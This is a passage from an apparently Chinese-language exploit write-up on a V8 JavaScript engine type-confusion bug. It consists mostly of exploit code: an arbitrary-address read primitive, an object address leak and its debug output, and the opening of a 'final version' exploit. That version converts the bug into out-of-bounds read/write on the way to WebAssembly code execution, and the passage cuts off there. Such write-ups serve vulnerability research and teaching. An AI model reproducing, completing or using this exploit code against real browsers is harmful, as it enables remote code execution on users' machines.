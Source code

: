 ```
// 任意地址读
function arw_read(addr, payload)
{
    oob_array[uint64_baseptr_offset] = i2f(0n);
    oob_array[uint64_externalptr_offset] = i2f(addr);
    let ret = big_array[0];
    return ret;
}
// 地址泄露
obj_leader_offset = 0x16;
function addr_of(obj) {
    obj_leaker.b = obj;
    let half = f2half(oob_array[obj_leader_offset]);    // half[0]为低32位，half[1]为高32位
    // 标记在低32字节，对象在高32字节
    if (half[0] == 0xc00c) {
        return compress_head_high32_addr + BigInt(half[1]);
    }
}

confusion_to_oob();
get_arw();
%DebugPrint(oob_array);
console.log("test!!!addr_of(obj):" + hex(addr_of(oob_array)));


```

结尾是为了测试一下，执行之后看一下效果：

```
DebugPrint: 0000036308088721: [JSArray]

test!!!addr_of(obj):0x36308088721


```

任意代码执行
------

我们手上的原语现在已经足够强大了，接下来的利用方法只要参考[之前的手法](https://www.0x2l.cn/index.php/archives/151/#title-7)就可以了。我又稍微修改了一些小细节，最终版本如下：

```
let vuln_array = [,,,,,,,,,,,, 6.1, 7.1, 8.1];  // 创建时的类型是HOLEY_DOUBLE_ELEMENTS
var oob_array;                                  // 用来将类型混淆转化为越界读写
var uint64_arw;                                 // 构造任意地址读写
vuln_array.pop();
vuln_array.pop();
vuln_array.pop();

// obj_leader的偏移
var obj_leader_offset;
// uint64_arw中三个关键值的相对偏移
var uint64_length_offset;   
var uint64_externalptr_offset;
var uint64_baseptr_offset;  
// 保存uint64_arw的三个关键值
var uint64_length;
var uint64_externalptr_ptr;
var uint64_baseptr_ptr;
// 指针压缩下的高32位地址
var compress_head_high32_addr;

// wasm
```